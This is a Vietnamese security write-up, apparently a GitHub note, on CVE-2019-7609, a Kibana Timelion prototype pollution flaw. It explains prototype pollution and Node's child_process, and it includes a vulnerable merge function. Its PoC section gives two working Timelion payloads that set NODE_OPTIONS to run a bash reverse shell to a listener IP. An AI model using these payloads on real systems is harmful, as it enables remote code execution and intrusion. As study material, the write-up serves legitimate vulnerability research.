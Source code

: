# CVE-2019-7609 (Kibana - Prototype poluttion)

---

> **Mô tả:** Sử dụng kĩ thuật `prototype pollution` tại chức năng `Timelion`
>
> **Version:** before 5.6.15 and 6.1 (flaw in the `Timelone visualizer`)

---

# Phân tích

## Javascript cơ bản - prototype pollution là gì

```javascript
let obj = {
  prop1: 1,
  prop2: 2
}
```

- Sử dụng thuộc tính prototype của js để tạo thêm các dạng kế thừa độc hại

<img src="C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20200116101555680.png" alt="image-20200116101555680" style="zoom: 80%;" />

- **Demo bypass authen thông qua đối tượng Object của js**

<img src="C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20200116101938694.png" alt="image-20200116101938694" style="zoom: 80%;" />

## Child Process Call trong js

- ``child_process``  có sao method : `execFileSync`, `execSync`, `fork`, `exec`, `execFile`, `spawn ()`
- Cuối cùng tất cả sẽ gọi đến `spawn` sẽ tạo ChildProcess và return giá trị.

```javascript
const { spawn } = require('child_process');

spawn('whoami').stdout.on('data', (data) => {
    console.log(`stdout: ${data}`);
});

//Output : command của whoami
```

- Sau khi module `child_process` được tạo , nó sẽ gọi đến method `spawn` , khởi tạo các tham số cần thiết của child_process và sau đó vào `normalizeSpawnArguments`
- **Tóm tắt:**
  1. Thiết lập các tham số yêu cầu của `child_process` , set các biến môi trường
  2. `Folk()` tạo child_process và `exevp` chạy lệnh command
  3. Output

---

## PoC

```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

 ```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
 ```

- Tạo biến môi trường `AAA` là câu lệnh require `child_process` sau đó chạy command reverse shell . tiếp tục sử dụng prototype pollution khởi tạo `NODE_OPTIONS` để đọc `AAA` đã set 

---

# Take Note Prototype Pollution

```javascript
var merge = function(target, source) {
    for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};

var rawObject = {"a":1,"b":2}

var pollutionObject = JSON.parse('{"__proto__":{"isAdmin":1}}');

var mergeObject = merge(rawObject,pollutionObject)

var emptyObject = {}

console.log(emptyObject.isAdmin)
// 1 => isAdmin true 

// Debug
// Khi duyệt vòng lặp tới thuộc tính __proto__ :
// merge(target[__proto__],source[__proto__])
// => target[__proto__] = {isAdmin:1} => Object poluted !!!
```

![image-20200117162858237](assets/image-20200117162858237.png)

- `obj[a][b] = value` khi ta control được `a` và `value` ,  lúc này set `a` thành `__proto__` và thuộc tính `b` sẽ được định nghĩa cho tất cả object tồn tại tron ứng dụng với `value` được set.
- Exploit chỉ xảy ra khi:
  - Object recursive merge
  - Property definition by path
  - Object clone
